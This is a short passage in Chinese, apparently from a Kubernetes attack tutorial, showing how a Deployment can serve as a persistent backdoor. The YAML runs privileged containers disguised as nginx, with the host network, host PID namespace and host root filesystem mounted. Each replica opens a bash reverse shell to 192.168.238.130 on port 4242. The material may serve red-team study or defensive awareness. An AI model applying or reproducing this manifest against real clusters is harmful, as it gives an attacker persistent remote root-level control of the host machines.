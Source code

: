 所以该功能特性也很适合用来做持久化  
![在这里插入图片描述](assets/1711471683-d022b1700ac530ef3e2b085280db9fda.png)  
如用 Deployment 来部署后门 yaml 如下

```yaml
apiVersion: apps/v1
kind: Deployment		#确保在任何时候都有特定数量的 Pod 副本处于运行状态
metadata:
  name: nginx-deploy
  labels:
    k8s-app: nginx-demo
spec:
  replicas: 3		#指定 Pod 副本数量
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: nginx
        image: nginx:1.7.9
        imagePullPolicy: IfNotPresent
        command: ["bash"]	#反弹 Shell
        args: ["-c", "bash -i >& /dev/tcp/192.168.238.130/4242 0>&1"]
        securityContext:
          privileged: true	#特权模式
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
```
